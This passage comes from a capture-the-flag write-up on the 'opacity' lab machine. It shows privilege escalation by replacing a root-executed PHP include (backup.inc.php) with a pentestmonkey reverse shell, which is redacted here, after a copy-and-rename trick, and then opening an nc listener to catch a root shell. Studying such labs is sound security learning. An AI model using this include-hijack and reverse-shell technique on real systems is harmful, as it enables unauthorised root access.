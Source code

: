 From the script, I notice at the first line `require_once('lib/backup.inc.php');` → When this file execute, the `backup.inc.php` would be called. At this point, I can exploit this by modifying its content to a reverse shell.

Unfortunately, this file does not allowed to be modified by another user except the `root`:

```tsx
-rw-r--r-- 1 root root   967 Jul  6  2022 backup.inc.php
```

Then, I would duplicate the file → Change the original to another name → Change the duplicated file to the original name → Now I have full permission with it:

```tsx
sysadmin@opacity:~/scripts/lib$ cp backup.inc.php backup.inc.php.bak
sysadmin@opacity:~/scripts/lib$ mv backup.inc.php backup.inc.php.temp
sysadmin@opacity:~/scripts/lib$ mv backup.inc.php.bak backup.inc.php

sysadmin@opacity:~/scripts/lib$ ls -l
total 128
-rw-r--r-- 1 root     root      9458 Jul 26  2022 application.php
-rw-r--r-- 1 sysadmin sysadmin   967 Aug 11 09:09 backup.inc.php
-rw-r--r-- 1 root     root       967 Jul  6  2022 backup.inc.php.temp
```

First of all, I clean the content of the backup file → Copy and paste the reverse shell into it:

```tsx
sysadmin@opacity:~/scripts/lib$ echo " " > backup.inc.php
sysadmin@opacity:~/scripts/lib$ nano backup.inc.php
sysadmin@opacity:~/scripts/lib$ cat backup.inc.php
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  The author accepts no liability
// for damage caused by this tool.  If these terms are not acceptable to you, then
// do not use this tool.
//
// In all other respects the GPL version 2 applies:
//
[REDACTED...]
```

On local machine:

```tsx
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 4444
listening on [any] 4444 ...

```

The system will automatically execute the file (for now, I still don’t know how even checking the ****************cron job****************) → Wait for a while and I would be connected to the target as `root` user:

